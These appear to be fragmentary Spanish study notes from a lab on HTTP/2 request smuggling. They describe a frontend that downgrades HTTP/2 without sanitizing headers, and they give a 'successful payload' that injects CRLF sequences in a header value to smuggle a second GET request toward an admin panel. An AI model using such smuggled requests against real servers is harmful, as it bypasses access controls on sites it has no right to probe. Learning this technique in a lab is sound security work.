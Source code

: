 * Frontend server downgrade HTTP/2 Requests, y no logra desinfectar correctamente las cabeceras `headers` entrantes. 
* Podemos aceder al panel de admin. 
* Es el endpoint POST de buscar en el `search` que está en. `HTTP/2`
![](Pasted%20image%2020250224162636.png)

```js
//Añadimos el header foo al inspector (como estamos en HTTP/2)
//Y lo demas lo pegamos en el valor del inspector HTTP/2 (como la imagen de arriba)
-------------------------
PAYLOAD EXITOSO !!!!!
-------------------------
Foo: //-> en el INSPECTOR 
//valores en value del inspector -->
bar //trail_sequence
//trail_sequence
GET /x HTTP/1.1 //trail_sequence
Host: vulnerable-website.com

--------
lo que podemos pegar: (dejamos el espacio entre bar y GET)
--------
bar

```